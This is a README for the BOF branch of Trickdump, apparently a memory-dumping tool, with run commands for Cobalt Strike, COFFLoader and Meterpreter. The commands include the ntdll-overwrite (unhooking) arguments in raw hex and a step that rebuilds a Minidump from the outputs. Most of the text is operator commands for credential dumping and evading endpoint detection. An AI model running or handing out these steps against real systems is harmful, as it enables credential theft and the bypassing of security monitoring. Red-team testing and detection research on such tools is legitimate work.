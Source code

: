 # Trickdump - "bof-flavour" branch

This branch implements the same functionality as the main branch but using BOFs (Beacon Object Files).

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).


-----------------------------------------

## Cobalt Strike

First import the aggressor scripts:

![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF1.png)

Each BOF file has one optional input argument for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".

```
lock <OVERWRITE_TECHNIQUE>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF2.png)

```
shock <OVERWRITE_TECHNIQUE>
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF3.png)

```
barrel <OVERWRITE_TECHNIQUE>
``` 

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF4.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
trick <OVERWRITE_TECHNIQUE>
```

![bof6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF6.png)

Finally generate the Minidump file. If you used the Trick BOF unzip the *trick.zip* file, even if there are problems with files headers it should work:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-z BARREL_ZIP] [-o OUTPUT_FILE]
```

![bof7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF7.png)


-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go <BOF_FILE> <OVERWRITE_TECHNIQUE>
```

The argument to overwrite the ntdll library must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py):
- "disk": Use the value 09000000050000006469736b00
- "knowndlls": Use the value 0e0000000a0000006b6e6f776e646c6c7300
- "debugproc": Use the value 0e0000000a000000646562756770726f6300
  
Examples running each BOF file with a differente overwrite technique:

```
COFFLoader64.exe go lock_bof.o 09000000050000006469736b00
```

![bof8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF8.png)

```
COFFLoader64.exe go shock_bof.o 0e0000000a0000006b6e6f776e646c6c7300
```

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF9.png)

```
COFFLoader64.exe go barrel_bof.o 0e0000000a000000646562756770726f6300
```

![img10](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF10.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
COFFLoader64.exe go trick_bof.o <OVERWRITE_TECHNIQUE>
```

![img12](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF12.png)


--------------------------------------

## Meterpreter's bofloader module

You can run the BOF files in your Meterpreter session after loading the "bofloader" module and using "--format-string z <technique>" to use a ntdll overwrite technique:

```
load bofloader
execute_bof lock_bof.o --format-string z <OVERWRITE_TECHNIQUE>
execute_bof shock_bof.o --format-string z <OVERWRITE_TECHNIQUE>
execute_bof barrel_bof.o --format-string z <OVERWRITE_TECHNIQUE>
```

![img14](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF14.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
execute_bof trick_bof.o --format-string z <OVERWRITE_TECHNIQUE>
```

![img16](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF16.png)
